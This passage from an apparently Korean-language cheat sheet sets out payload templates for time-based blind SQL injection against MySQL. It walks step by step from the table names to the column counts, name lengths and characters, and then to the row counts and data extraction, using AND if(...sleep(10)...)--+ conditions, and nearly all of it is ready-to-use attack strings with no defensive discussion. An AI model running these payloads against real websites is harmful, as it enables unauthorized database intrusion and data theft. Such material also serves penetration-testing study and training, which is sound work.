 ```bash
AND if(ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),1,1))={여기에 모든 ASCII코드값(DEC) 대입}, sleep(10), false)--+
AND if(ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),2,1))={여기에 모든 ASCII코드값(DEC) 대입}, sleep(10), false)--+ 
AND if(ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),N,1))={여기에 모든 ASCII코드값(DEC) 대입}, sleep(10), false)--+ 
```

### 칼럼명
- 칼럼 갯수 결정
```bash
AND if((SELECT count(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='테이블명')=1,sleep(10),false)--+     (거짓)
AND if((SELECT count(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='테이블명')=2,sleep(10),false)--+     (거짓)
AND if((SELECT count(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='테이블명')=K,sleep(10),false)--+     (참)   <--- 컬럼 갯수는 K개임.
``` 
- 길이 결정
```bash
AND if(LENGTH((SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='테이블명' LIMIT 0,1))=1, sleep(10), false)--+          (거짓)     
AND if(LENGTH((SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='테이블명' LIMIT 0,1))=2, sleep(10), false)--+          (거짓)     
AND if(LENGTH((SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='테이블명' LIMIT 0,1))=N, sleep(10), false)--+          (참)      <--- 첫번째 컬럼명의 길이는 N임.
```
- 각 문자 식별
```bash
AND if(ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='테이블명' LIMIT 0,1),1,1))={여기에 모든 ASCII코드값(DEC) 대입}, sleep(10), false)--+
AND if(ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='테이블명' LIMIT 0,1),2,1))={여기에 모든 ASCII코드값(DEC) 대입}, sleep(10), false)--+ 
AND if(ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='테이블명' LIMIT 0,1),N,1))={여기에 모든 ASCII코드값(DEC) 대입}, sleep(10), false)--+ 
```

4. 데이터 추출
- 테이블 안의 행 갯수 결정
```bash
AND if((SELECT count(*) FROM 테이블명)=1,sleep(10),false)--+     (결과:거짓)
AND if((SELECT count(*) FROM 테이블명)=2,sleep(10),false)--+     (결과:거짓)
AND if((SELECT count(*) FROM 테이블명)=K,sleep(10),false)--+     (결과:참)   <--- 테이블 행의 갯수는 K개임.
```
- 길이 결정
```bash
AND if(LENGTH((SELECT 컬럼명 FROM 테이블명 LIMIT 0,1))=1, sleep(10), false)--+      (결과:거짓)     
AND if(LENGTH((SELECT 컬럼명 FROM 테이블명 LIMIT 0,1))=2, sleep(10), false)--+      (결과:거짓)     
AND if(LENGTH((SELECT 컬럼명 FROM 테이블명 LIMIT 0,1))=N, sleep(10), false)--+      (결과:참)      <--- 첫번째 컬럼명의 길이는 N임.
```
- 각 문자 식별
```bash
AND if(ASCII(SUBSTRING((SELECT 컬럼명 FROM 테이블명 LIMIT 0,1),1,1))={여기에 모든 ASCII코드값(DEC) 대입}, sleep(10), false)--+
AND if(ASCII(SUBSTRING((SELECT 컬럼명 FROM 테이블명 LIMIT 0,1),2,1))={여기에 모든 ASCII코드값(DEC) 대입}, sleep(10), false)--+ 
AND if(ASCII(SUBSTRING((SELECT 컬럼명 FROM 테이블명 LIMIT 0,1),N,1))={여기에 모든 ASCII코드값(DEC) 대입}, sleep(10), false)--+ 
```

